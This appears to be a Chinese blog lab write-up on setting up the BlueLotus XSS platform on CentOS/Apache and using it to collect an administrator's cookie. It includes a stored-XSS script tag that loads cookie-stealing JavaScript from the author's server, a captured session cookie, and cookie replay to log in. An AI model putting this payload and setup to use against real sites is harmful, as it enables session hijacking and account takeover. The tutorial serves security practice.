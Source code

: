 ```yaml
---
title: 构造个人轻量级XSS平台获取管理员cookie并登录
date: 2019-08-17 12:45:34
categories: 玩
tags: 网络安全
---
```

## 一、前言
本平台是个人轻量级XSS测试平台，仅作为练习参考。
## 二、实验环境
服务器操作系统：Centos 7
Web容器：Apache
## 三、平台搭建过程
安装Apache
安装PHP
安装Git工具
从GitHub克隆XSS平台源码
删除默认网站内容
rm  -rf  /var/www/*
创建新的网站目录
mkdir  /var/www/xss
从GitHub克隆xss测试源码（https://github.com/firesunCN/BlueLotus_XSSReceiver.git）
git  clone  https://github.com/firesunCN/BlueLotus_XSSReceiver.git  /var/www/xss/
给xss目录
chmod  -R  777  /var/www/xss/
配置Apache
创建虚拟主机配置文件夹
mkdir  /etc/httpd/conf/vhost
创建并编辑虚拟机配置文件
vi  /etc/httpd/conf/vhost/httpd-vhosts.conf
添加以下内容：
```
><VirtualHost *:80>
>       DocumentRoot "/var/www/xss"
>       DirectoryIndex admin.php
></VirtualHost>
```
编辑httpd.conf文件
vi  /etc/httpd/conf/httpd.conf
![1](构造个人轻量级XSS平台获取管理员cookie并登录/1.png)
![2](构造个人轻量级XSS平台获取管理员cookie并登录/2.png)
允许使用 .htaccess文件
![3](构造个人轻量级XSS平台获取管理员cookie并登录/3.png)
添加之前创建的虚拟主机
Include  /etc/httpd/conf/vhost/httpd-vhosts.conf
![4](构造个人轻量级XSS平台获取管理员cookie并登录/4.png)
开机启动Apache服务
chkconfig  httpd  on
重新加载Apache配置文件
systemctl  start  httpd
回到浏览器访问服务器结果显示无法访问网站，经过排查是防火墙拦了。
命令行配置防火墙开放80端口
firewall-cmd --zone=public --add-port=80/tcp --permanent
重启防火墙
systemctl  restart  firewalld
安装XSS平台
访问服务器ip地址，点击安装
![5](构造个人轻量级XSS平台获取管理员cookie并登录/5.png)
主要修改后台登录密码和数据加密密码，其余保持默认，然后提交
![6](构造个人轻量级XSS平台获取管理员cookie并登录/6.png)
若报错则手动安装，手动安装步骤：
首先切换到网站跟目录
cd  /var/www/xss
将配置文件改名
mv  config_sample.php   config.php
删除install.php文件
rm  -f  install.php
若要修改密码信息只需修改config.php文件
安装成功，点击登录
![7](构造个人轻量级XSS平台获取管理员cookie并登录/7.png)
成功登录
![8](构造个人轻量级XSS平台获取管理员cookie并登录/8.png)
功能测试
点击我的JS，插入模板，选择Defualt.js，修改网站服务器ip地址
http://192.168.75.129/index.php
![9](构造个人轻量级XSS平台获取管理员cookie并登录/9.png)
生成payload
```
><script src="http://192.168.75.129/myjs/cookie.js"></script>
```
![10](构造个人轻量级XSS平台获取管理员cookie并登录/10.png)
成功获取用户cookie
ASPSESSIONIDCQBSTQBB=BHILNFDBLNPBDMOBFPHNOFBJ 
利用Google浏览器插件edit this cookie修改cookie登录
到此存储型xss注入获取管理员cookie并登录已经圆满完成。
